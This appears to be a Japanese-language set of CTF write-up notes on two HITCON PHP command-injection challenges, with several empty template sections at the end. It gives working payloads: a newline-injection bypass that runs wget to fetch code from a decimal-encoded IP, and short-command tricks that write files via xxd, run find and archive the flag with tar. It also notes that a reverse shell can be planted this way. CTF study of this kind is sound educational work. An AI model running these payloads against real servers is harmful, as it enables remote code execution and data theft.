 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**

- [writeup](#writeup)
  - [PHP "preg_match" with "%0a" (hitcon2015 babyfirst)](#php-preg_match-with--hitcon2015-babyfirst)
  - [PHP "exec(cmd) len(cmd)<= 5"(Hitcon CTF 2017 Quals: Baby First Revenge)](#php-execcmd-lencmd-5hitcon-ctf-2017-quals-baby-first-revenge)
  - [](#)
  - [](#-1)
  - [](#-2)
  - [](#-3)
- [メモ](#%E3%83%A1%E3%83%A2)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# writeup
## PHP "preg_match" with "%0a" (hitcon2015 babyfirst)
https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst  
https://github.com/pwning/public-writeup/blob/master/hitcon2015/web100-babyfirst/writeup.md  
- **entrypoint**  
以下のソースが与えられる。  
`if ( !preg_match('/^\w+$/', $args[$i]) )`で行頭から行末までが`\w`(abcdefghijklmnopqrstuvwxyz0123456789_)の時に`/bin/orange`コマンドと結合する。  
`preg_match`の`^ $`では改行文字`%0a`を入れると「行頭から改行文字まで」に範囲が変わってしまって、改行文字はOKとなる！本来は改行文字も禁止すべきなのに…ってこと！？  
https://qiita.com/tadsan/items/81b2925b3ed03ae6b7e0  

```php
<?php
    highlight_file(__FILE__);

    $dir = 'sandbox/' . $_SERVER['REMOTE_ADDR'];
    if ( !file_exists($dir) )
        mkdir($dir);
    chdir($dir);

    $args = $_GET['args'];
    for ( $i=0; $i<count($args); $i++ ){
        if ( !preg_match('/^\w+$/', $args[$i]) )
            exit();
    }
    exec("/bin/orange " . implode(" ", $args));
?>
```
以下のようにすることで`%0a`以降のコマンドを普通に実行できる。  
配列にしてるのは`$args[$i]`で入力が配列として期待されているから。  
```txt
http://localhost/
?args[0]=x%0a
&args[1]=mkdir
&args[2]=orange%0a
&args[3]=cd
&args[4]=orange%0a
&args[5]=wget
&args[6]=846465263%0a
```
- **payload**  
```txt
http://localhost/
?args[0]=x%0a
&args[1]=mkdir
&args[2]=orange%0a
&args[3]=cd
&args[4]=orange%0a
&args[5]=wget
&args[6]=846465263%0a
```
## PHP "exec(cmd) len(cmd)<= 5"(Hitcon CTF 2017 Quals: Baby First Revenge)
https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge  
https://infosec.rm-it.de/2017/11/06/hitcon-2017-ctf-babyfirst-revenge/  
https://hack.more.systems/writeup/2017/11/06/hitconctf-babyfirstrevenge/  
- **entrypoint**  
以下のPHPソースが与えられる。つまり、5文字以内でFlagをゲットする必要がある。  
```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```
いろいろ解法があるらしいけど、以下のようにして`HELLO`という文字列を`z`というファイルに子の手順で書き込めるらしい。  
`>4845`,`ls>>y`で`y`というファイルに`4845`という値が書き込まれる。  
こんな調子でyというファイルにHEXで書き込んでいく。  
`*`でファイルが展開されて最終的に`xxd -p -r y z`みたいにASCIIに直して書きこむ。 
これでリバースシェルも書き込んでFlagゲット。  
```txt
>4845
ls>>y
rm 4*
>4c4c
ls>>y
rm 4*
>4f
ls>>y
rm 4*
>z
>-p
>-r
xxd *
```
別のやり方として、以下のように`*`でファイルを展開してコマンドとして実行できるらしい！  
以下だと`find /`が実行できる。  
`/home/fl4444g/README.txt`が得られるらしい。  
```txt
curl 'http://52.199.204.34/?cmd=>find'
curl 'http://52.199.204.34/?cmd=*%20/>x'
```
以下で`tar zcf zzz /h*`でzzzというファイルを作成してそれをダウンロードしてFlagゲット。(この後もいろいろあるけど同じことなので割愛)  
```txt
curl 'http://52.199.204.34/?cmd=>tar'
curl 'http://52.199.204.34/?cmd=>zcf'
curl 'http://52.199.204.34/?cmd=>zzz'
curl 'http://52.199.204.34/?cmd=*%20/h*'
```
- **payload**  
```txt
>4845
ls>>y
rm 4*
>4c4c
ls>>y
rm 4*
>4f
ls>>y
rm 4*
>z
>-p
>-r
xxd *
```
```txt
curl 'http://52.199.204.34/?cmd=>tar'
curl 'http://52.199.204.34/?cmd=>zcf'
curl 'http://52.199.204.34/?cmd=>zzz'
curl 'http://52.199.204.34/?cmd=*%20/h*'
```
## 
- **entrypoint**  
- **payload**  
## 
- **entrypoint**  
- **payload**  
## 
- **entrypoint**  
- **payload**  
## 
- **entrypoint**  
- **payload**  

# メモ
